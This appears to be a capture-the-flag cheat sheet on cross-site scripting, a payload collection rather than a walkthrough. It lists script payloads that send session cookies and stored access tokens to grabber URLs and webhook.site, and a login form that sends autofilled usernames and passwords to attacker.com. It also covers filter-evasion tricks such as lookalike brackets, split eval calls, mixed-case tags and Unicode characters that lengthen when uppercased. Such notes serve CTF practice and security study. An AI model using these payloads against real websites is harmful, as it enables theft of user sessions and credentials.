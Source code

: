# XSS (Cross-Site Scripting)
> XSS is a form of injection that enables attackers to inject client-side scripts into web pages viewed by other users.

## OG exploit (cookie grabbing / local storage)
By far the most common type of XSS. Involves loading an external link controlled by attacker with cookie appended as a query, may be a JWT, flag or some other secret.

```
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
<script>fetch('https://webhook.site?'+document.cookie)</script>
```

## Password autofill
We can exploit password managers that automatically fill in HTML input that match `username` and `password` types.

```
<form class="login-form" method="GET" action="/login"> 
	<input type="username" name="username" onchange="fetch('https://attacker.com?username='+this.value)">
	<input type="password" name="password" onchange="fetch('https://attacker.com?password='+this.value)"> 
</form>
```

## Filter evasion!!

### Bypass < & >
Using these special characters: `＜` and `＞` or other similar characters. If you're lucky, the backend will accidentally convert these to actual angle brackets

### Bypass blacklisted js functions
```js
eval('ale'+'rt(1)')
```

### Bypass tag blacklist (no `<script>`)
```
<script x>
<script x>alert(1)<script y>
```

```
<sCrIpt> alert(1) </sCrIpt>
```

## Input is being uppercased
You can make use of HTML entity encodings to bypass the uppercasing. Refer to: `/CTF/tools/Web/html-entity-encoder.py`, which converts your input into HTML entities and URL encodes it.

In addition, you can also take advantage of this. Certain characters (like ß and ﬃ) count as a single character, but become multiple characters when uppercased (SS and FFI). This is useful in very limited contexts, such as when the length of the initial string is used to iterate through the modifed (uppercased) string later on. By spamming the special characters at the start, you can "push" your XSS payload back, so any filters in place doesn't detect/remove your payload. Refer to: [blazing fast](https://smitop.com/p/dctf22-blazingfast/) (TODO: find characters that do the same for lowercasing)


## Relevant tools
`/CTF/tools/Web/XSS/xssstrike`
